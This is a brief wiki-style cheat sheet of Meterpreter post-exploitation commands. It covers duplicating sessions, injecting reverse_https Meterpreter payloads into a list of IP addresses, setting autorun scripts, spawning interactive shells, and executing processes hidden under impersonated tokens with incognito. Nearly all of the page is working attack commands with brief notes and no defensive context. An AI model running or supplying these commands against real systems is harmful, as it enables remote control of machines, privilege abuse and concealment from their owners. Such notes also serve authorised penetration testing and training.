<!-- TITLE: Meterpreter -->
<!-- SUBTITLE: A quick summary of Meterpreter -->


# Things to note
http_reverse_tcp - honors the system http proxies (which might be set to burp for example).

# Sending Shells to other people

run duplicate -D -r -e executable_to_inject -p 4444 -r listenhost

Next command will send meterpreters to each ip in -mr list

run multi_meter_inject -pt windows/meterpreter/reverse_https -mr 10.128.129.200,10.128.129.201 -p 443

# Auto Run Script

set AutoRunScript multi_console_command -rc commands.rc

# Exec

execute -i -f bash
-i interact
-f foreground I think
will execute the process. exit returns to meterpreter.

Execing with other Token:
incognito
execute -t will use the current token
-h will hide from screen
-c will chanelize it
-i will let you interact with it


